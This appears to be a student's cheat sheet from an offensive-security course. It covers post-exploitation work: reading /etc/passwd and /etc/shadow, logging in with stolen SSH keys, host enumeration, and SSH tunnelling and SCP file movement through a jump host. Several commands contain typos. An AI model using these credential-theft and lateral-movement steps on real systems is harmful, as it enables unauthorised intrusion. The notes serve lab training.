 ***If you get on a Linux box, the first thing you should do is cat /etc/passwd and /etc/shadow
	-SSgt Dow***
# Using Stolen SSH Keys

Bring private key to your own box

***On your own box***

	chmod 600 /home/student/stolenkey
	ssh -i /home/student/stolenkey jane@1.2.3.4

 ***STOLEN KEY WILL BE IN TAR FILE***

 scp -o 'ControlPath=/tmp/s' x@x:<Path>

 # Host Enum

 Win(Use GUI when possible)
 
 	net user

 Lin

 	cat /etc/password

  # Process Enumeration

Win

	tasklist /v

Linux

	ps -elf

or

	top

# Service Enumeration

Win

	tasklist /svc

Lin

	chkconfig    #SysV

 	systemctl --type=service #SystemD

  # Network Connection Enumeration

Win

	ipconfig /all

Lin

	ipconfig -a #SysV

 	ip a 		#SystemD

  # Demo Notes


## Tunnel

ssh -MS /tmp/jump student@10.50.xx.xx

## Dynmaic Fwd

ssh -S /tmp/jump jump -O forward -D9050

## Ping Sweep

Found 1.2.3.4

nmap/nc found 22 open


## Port Forward 

ssh -S /tmp/jump jump -O forward -L1212:1.2.3.4:22

## SCP local "file.sh" to remote host (LINUX)

scp -P 1212 file.sh student@127.0.0.1:/home/student2/Documents

			(SOURCE)					(DESTINATION)

## SCP file "script.sh" FROM rem host (LINUX)

scp -P 1212 student@127.0.0.1:/home/student2/Documents/script.sh .

## SCP local "file.sh" to remote host (WINDOWS)

scp -P 1212 file.sh student@127.0.0.1:C:/user/student/desktop


## SCP file "script.sh" FROM rem host (WINDOWS)

scp -P 1212 student@127.0.0.1:C:?users/student/desktop/script.sh


### EXTRA INTRA INTERNAL
